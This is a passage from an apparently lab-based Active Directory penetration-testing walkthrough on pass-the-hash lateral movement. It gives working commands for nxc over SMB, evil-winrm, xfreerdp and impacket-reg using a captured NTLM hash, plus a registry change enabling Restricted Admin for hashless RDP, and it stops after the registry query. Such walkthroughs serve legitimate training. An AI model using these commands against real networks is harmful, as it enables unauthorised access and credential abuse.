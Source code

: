 
### Lateral Move with CME
```
nxc smb 192.168.56.11 -H 'aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5' -d 'north' -u 'catelyn.stark' -x whoami
```

![screenshot](pics/nxc_lateral.png)

- By default nxc only check if smb admin$ is writable. If it is the case cme show “pwned”.
- For execution nxc use the -x option and by default use the wmiexec impacket method

### Using winrm

- Winrm
    - protocol HTTP or HTTPS
```
evil-winrm -i 192.168.56.11 -u catelyn.stark -H 'cba36eccfd9d949c73bc73715364aff5'
```
![screenshot](pics/evil_winrm.png)

### Using RDP

- If you try to do PTH with RDP :
```
xfreerdp3 /u:catelyn.stark /d:north.sevenkingdoms.local /pth:cba36eccfd9d949c73bc73715364aff5 /v:192.168.56.11
```


- You will have the following error :

> To allow rdp connection without password you must Enable restricted admin

- Enable restricted admin:
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

- Let’s do this from linux, first let’s show the current value :
```
impacket-reg NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
```